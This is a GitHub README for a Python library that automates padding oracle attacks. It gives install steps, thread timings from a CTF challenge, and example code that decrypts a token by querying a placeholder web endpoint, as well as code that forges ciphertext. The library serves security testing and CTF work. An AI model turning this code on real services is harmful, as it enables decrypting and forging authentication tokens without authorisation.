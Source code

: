 # Padding Oracle Automation in Python

![Python Package Badge](https://github.com/djosix/padding_oracle.py/actions/workflows/python-package.yml/badge.svg)

This script automates padding oracle attacks in Python, offering efficient and threaded execution.

## Installation

You can install the script using one of these methods:

- **Via PyPI:**
  ```shell
  pip3 install -U padding_oracle
  ```

- **Directly from GitHub:**
  ```shell
  pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
  ```

## Performance

The script's performance varies depending on the number of request threads. This was tested in a CTF web challenge:

| Request Threads | Time Taken  |
|-----------------|-------------|
| 1               | 17m 43s     |
| 4               | 5m 23s      |
| 16              | 1m 20s      |
| 64              | 56s         |

## Usage

### Decryption

When trying to decrypt a token like the one at `https://example.com/api/?token=M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94%3D`, this script assumes that the token is vulnerable to a padding oracle attack.

```python
from padding_oracle import decrypt, base64_encode, base64_decode
import requests

sess = requests.Session()  # Uses connection pooling
url = 'https://example.com/api/'

def oracle(ciphertext: bytes):
    response = sess.get(url, params={'token': base64_encode(ciphertext)})
    if 'failed' in response.text:
        return False  # Token decryption failed
    elif 'success' in response.text:
        return True
    else:
        raise RuntimeError('Unexpected behavior')

ciphertext = base64_decode('M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94=')
assert len(ciphertext) % 16 == 0

plaintext = decrypt(
    ciphertext,
    block_size=16,
    oracle=oracle,
    num_threads=16,
)
```

### Encryption

Below is an example demonstrating how to encrypt arbitrary bytes. For a detailed understanding of the process, please refer to [this Pull Request](https://github.com/djosix/padding_oracle.py/pull/4).

```python
from padding_oracle import encrypt

ciphertext = encrypt(
    b'YourTextHere', 
    block_size=16,
    oracle=oracle,
    num_threads=16,
)
```

### Customized Logging

Both `encrypt` and `decrypt` allow user to inject a custom logger:

- **Disable Logging:**
  ```python
  from padding_oracle import nop_logger

  plaintext = decrypt(
      ...
      logger=nop_logger,
  )
  ```

- **Selective Logging:**
  ```python
  def logger(kind: str, message: str):
      if kind in ('oracle_error', 'solve_block_error'):
          print(f'[{kind}] {message}')

  plaintext = decrypt(
      ...
      logger=logger,
  )
  ```

### Extras

The script also includes PHP-like encoding and decoding functions:

```python
from padding_oracle.encoding import urlencode, urldecode, base64_encode, base64_decode
```

### TODO

- [ ] Support more padding schemes

## License

This script is distributed under the MIT license.
